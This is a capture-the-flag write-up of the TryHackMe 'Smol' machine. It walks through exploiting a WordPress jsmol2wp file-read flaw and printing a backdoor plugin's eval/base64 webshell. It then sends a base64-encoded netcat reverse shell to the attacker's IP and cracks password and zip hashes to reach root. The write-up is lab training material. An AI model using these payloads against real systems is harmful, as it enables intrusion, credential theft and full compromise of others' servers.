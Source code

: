 ```yaml
---
layout: post
title:  "Smol (THM)"
date:   2025-08-01 23:48:43 -0400
author: robo.uzi
tags: [CTF, TryHackMe]
---
```


## Initial Compromise

Prompt: At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

I know to start with looking for wordpress plugins. 

Start with nmap: `nmap -p- -T5 -vv 10.10.100.178 -oN smolfullnmap.txt`

`nmap -sVC -p 22,80 -vv -T4 10.10.100.178 -oN smolnmap.txt`:
```shell
PORT   STATE SERVICE REASON  VERSION  
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))  
|_http-title: Did not follow redirect to http://www.smol.thm  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add `www.smol.thm` and `smol.thm` to `/etc/hosts`.

I run `wpscan` like this: `podman run -it docker.io/wpscanteam/wpscan --url http://www.smol.thm/`:
```shell
[+] WordPress version 6.7.1 identified (Outdated, released on 2024-11-21).  
| Found By: Rss Generator (Passive Detection)  
|  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>  
|  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>  
  
[+] WordPress theme in use: twentytwentythree  
| Location: http://www.smol.thm/wp-content/themes/twentytwentythree/  
| Last Updated: 2024-11-13T00:00:00.000Z  
| Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt  
| [!] The version is out of date, the latest version is 1.6  
| [!] Directory listing is enabled  
| Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css  
| Style Name: Twenty Twenty-Three  
| Style URI: https://wordpress.org/themes/twentytwentythree  
| Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....  
| Author: the WordPress team  
| Author URI: https://wordpress.org  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| Version: 1.2 (80% confidence)  
| Found By: Style (Passive Detection)  
|  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'  
  
[+] Enumerating All Plugins (via Passive Methods)  
[+] Checking Plugin Versions (via Passive and Aggressive Methods)  
  
[i] Plugin(s) Identified:  
  
[+] jsmol2wp  
| Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/  
| Latest Version: 1.07 (up to date)  
| Last Updated: 2018-03-09T10:28:00.000Z  
|  
| Found By: Urls In Homepage (Passive Detection)  
|  
| Version: 1.07 (100% confidence)  
| Found By: Readme - Stable Tag (Aggressive Detection)  
|  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt  
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)  
|  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt  
```

I find CVE-2018-20463 (https://github.com/Kalidas-7/CVE/blob/main/WordPress%20JSmol2WP) which enables arbritrary file read, and SSRF. In `/wp-content/plugins/jsmol2wp/php/jsmol.php` 137th line the parameter `$query` of `file_get_contents` is directly controllable, so `php://filter` is used to read it. You can also use `file:///etc/passwd` to read the absolute path.

I visit `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php` and am able to read the file. I find some useful information:
```php
/** Database username */
define( 'DB_USER', 'redacted' );

/** Database password */
define( 'DB_PASSWORD', 'redacted' );
```

I visit `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=file:///etc/passwd` and discover the users `xavi`, `diego`, `think`, and `gege`.

I visit `http://www.smol.thm/wp-admin/` and login with the credentials I found.

I find a hidden post `http://www.smol.thm/wp-admin/post.php?post=58&action=edit` it contained the hint `1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.`

I visit `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php` to read the file. 

In the file I find `eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));` which decodes to `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }`.

This decodes to:
```php
if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
```

I can set a cmd parameter and get code execution on a link somewhere. I visit `https://www.revshells.com/` and generate a busybox netcat reverse shell and base64 encode it. The payload will be: `?cmd=echo YnVzeWJveCBuYyAxMC4xMy42Ni4xMjMgMTMzNyAtZSBzaA== | base64 -d | bash`

I test setting the parameter `?cmd=...` on `/wp-admin/edit.php`, `/wp-admin/media-new.php`, `/wp-admin/plugin-install.php`, and `/wp-admin/index.php`. After setting my listener `nc -lvnp 1337`, `http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xMy42Ni4xMjMgMTMzNyAtZSBzaA== | base64 -d | bash` gets me a shell as `www-data`. 

___

## Priv Esc

I fix my shell with:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

I login to the mysql database  `mysql -u wpuser -p` with the creds from earlier.

Run `show databases;` then `use wordpress`. Then I run `show tables;`, then `select * from wp_users;`. I get 6 password hashes:
```shell
1 | admin | $P$hash | admin | admin@smol.thm
2 | wpuser| $P$hash | wp    | wp@smol.thm
3 | think | $P$hash | think | josemlwdf@smol.thm
4 | gege  | $P$hash | gege  | gege@smol.thm
5 | diego | $P$hash | diego | diego@local
6 | xavi  | $P$hash | xavi  | xavi@smol.thm
```
These hashes belong to `phpass, WordPress (MD5), Joomla (MD5)`

I copy the 6 hashes to a file for cracking. I am not using a GPU right now so I will use john the ripper: `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`. I crack one password.

Run `su diego` and become this user. Running `id` I can see I'm in the group `internal` which gives me some read permissions. This allows me to read `think`s ssh key.

Copy the key, run `chmod 600 id_rsa` then `ssh -i id_rsa think@smol.thm`.

The user `gege` has the file `wordpress.old.zip` in his home directory but `think` cannot access it. `su gege` works to become this user. I download `wordpress.old.zip` and crack its password with `/usr/sbin/zip2john wordpress.old.zip > zip.hash` then `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash`.

I look in the `wp-config.php` for the old site and find credentials for `xavi`.

I run `sudo -l` and discover `(ALL : ALL) ALL`. I run `sudo su` and become root.

___
